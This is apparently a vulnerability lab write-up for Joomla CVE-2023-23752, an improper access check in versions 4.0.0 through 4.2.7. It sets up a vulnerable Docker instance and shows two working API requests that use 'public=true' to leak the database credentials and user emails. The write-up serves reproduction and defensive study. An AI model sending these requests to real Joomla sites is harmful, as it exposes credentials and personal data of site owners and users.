



Joomla improper access check in webservice endpoints (CVE-2023-23752)¶
Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.
An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints.
References:
- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://xz.aliyun.com/t/12175
- https://vulncheck.com/blog/joomla-for-rce
Vulnerable Environment¶
Execute following command to start a Joomla site 4.2.7:
docker compose up -d
You can access the Joomla website through http://your-ip:8080 after the server is started.
Exploit¶
This issue is caused by an attribute overwrite issue, the attacker can use public=true to bypass the authorization check.
For example, expose all configuration including MySQL username and password through this link:
http://your-ip:8080/api/index.php/v1/config/application?public=true

Otherwise access is unauthorized without public=true：

Expose all users information including emails through this link:
http://your-ip:8080/api/index.php/v1/users?public=true
